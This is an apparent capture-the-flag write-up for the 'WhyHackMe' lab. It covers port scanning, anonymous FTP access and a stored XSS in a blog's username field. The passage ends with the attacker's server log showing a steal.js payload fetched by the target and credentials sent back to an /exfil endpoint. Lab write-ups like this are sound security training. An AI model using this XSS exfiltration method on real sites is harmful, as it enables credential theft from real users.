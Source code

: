 # WhyHackMe

## Port scan

```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.9.227.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)

<<SNIPPED>>

80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome!!
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```



## Ftp files

* Since anonymous login was enabled we can go ahead  and grab the file

```bash
└─➜ ftp 10.10.59.115                                                                                                                                                                     [0]
Connected to 10.10.59.115.
220 (vsFTPd 3.0.3)
Name (10.10.59.115:heap): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        119          4096 Mar 14  2023 .
drwxr-xr-x    2 0        119          4096 Mar 14  2023 ..
-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
g226 Directory send OK.
ftp> get update.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for update.txt (318 bytes).
226 Transfer complete.
318 bytes received in 7.1e-05 seconds (4.27 Mbytes/s)
ftp> quit
221 Goodbye.

```



### File (update.txt)

```bash
└─➜ cat update.txt    ]
Hey I just removed the old user mike because that account was 
compromised and for any of you who wants the creds of new account 
visit 127.0.0.1/dir/pass.txt and don't worry this file is 
only accessible by localhost(127.0.0.1), 
so nobody else can view it except me or people with access to the common account.
- admin
```

After reading that we can clearly see a hint of SSRF.&#x20;



## Web page

After you read the blog, you can see it wants you to login first to comment down on the blog.

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

## Dir scan

```bash
[Status: 200, Size: 643, Words: 36, Lines: 23, Duration: 147ms]
    * FUZZ: register.php
```

Found a register portal.



## Web exploitation

After registering myself with `test:test` i tried exploiting XSS, CMD injection, SQLi but none worked, maybe username parameter is vulnerable.

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

After login, i can now comment on blog

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Yessss, the username parameter was actually vulnerable to XSS.

* Registering new user with XSS payload that will give us admin cookie.

We need to steal contents of a file from a server with XSS, upon google searching we can go on following link

{% embed url="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#steal-page-content" %}

Using that we get creds,

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.17.41.43 - - [21/Mar/2024 09:52:51] "GET /steal.js HTTP/1.1" 200 -
10.17.41.43 - - [21/Mar/2024 09:52:51] "GET /steal.js HTTP/1.1" 200 -
10.17.41.43 - - [21/Mar/2024 09:52:51] code 404, message File not found
10.17.41.43 - - [21/Mar/2024 09:52:51] "GET /exfil? HTTP/1.1" 404 -
10.10.234.35 - - [21/Mar/2024 09:53:03] "GET /steal.js HTTP/1.1" 200 -
10.10.234.35 - - [21/Mar/2024 09:53:03] code 404, message File not found
10.10.234.35 - - [21/Mar/2024 09:53:03] "GET /exfil?amFjazpXaHl <snip> Z0lESwo= HTTP/1.1" 404 -

```





